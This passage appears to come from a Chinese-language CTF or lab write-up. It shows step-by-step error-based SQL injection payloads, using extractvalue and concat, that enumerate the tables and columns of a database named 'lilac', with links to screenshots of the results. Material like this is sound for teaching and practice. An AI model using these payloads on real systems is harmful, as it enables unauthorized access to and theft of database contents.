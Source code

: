 `Amy Jones' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='lilac')))#`

![alt text](assets/writeup/image-34.png)


**注入得到表名**

`Amy Jones' and extractvalue(1,concat(0x7e,(select table_name  from information_schema.tables where table_schema='lilac' limit 0,1)));#`

![alt text](assets/writeup/image-35.png)

表名：*dmgiimcl*


`Amy Jones' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema='lilac' and table_name='dmgiimcl')))#`

![alt text](assets/writeup/image-36.png)

**注入得到列名**

`Amy Jones' and extractvalue(1,concat(0x7e,(select column_name  from information_schema.columns where table_schema='lilac' and table_name='dmgiimcl' limit 0,1)))#`

![alt text](assets/writeup/image-37.png)
